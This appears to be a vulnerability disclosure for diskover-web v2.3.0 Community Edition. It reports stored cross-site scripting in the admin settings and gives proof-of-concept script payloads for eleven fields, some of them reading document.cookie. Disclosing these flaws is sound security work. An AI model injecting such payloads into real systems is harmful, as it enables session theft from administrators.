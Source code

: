 diskover-web v2.3.0 Community Edition suffers from multiple stored cross-site scripting (XSS) vulnerabilities in its administrative settings interface. Various configuration fields—such as ES_HOST, ES_INDEXREFRESH, ES_PORT, ES_SCROLLSIZE, ES_TRANSLOGSIZE, ES_TRANSLOGSYNCINT, EXCLUDES_FILES, FILE_TYPES[], INCLUDES_DIRS, INCLUDES_FILES, and TIMEZONE—do not properly sanitize user-supplied input. Malicious payloads submitted via these parameters are persisted in the application and executed whenever an administrator views or edits the settings page.


```diskover-web v2.3.0 community edition (ce)```


Stored XSS
There are multiple stored xss in the admin settings.


ES_HOST

```test<script>alert(document.cookie)</script>test```


ES_INDEXREFRESH

```test"><script>alert(1)</script>test```


ES_PORT

```9200<script>alert(document.domain)</script>test```


ES_SCROLLSIZE

```test"><script>alert(1)</script>test```


ES_TRANSLOGSIZE

```test"><script>alert(1)</script>test```


ES_TRANSLOGSYNCINT

```test"><script>alert(1)</script>test```


EXCLUDES_FILES

```test"><script>alert(1)</script>test```


FILE_TYPES[]

```test<script>alert(1)</script> test```


INCLUDES_DIRS

```test"><script>alert(1)</script>test```


INCLUDES_FILES

```test"><script>alert(1)</script>test```


TIMEZONE

```test"><script>alert(1)</script>test```


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/diskover-web_v2.3.0_community_edition_stored_XSS_via_settings.gif?raw=true)


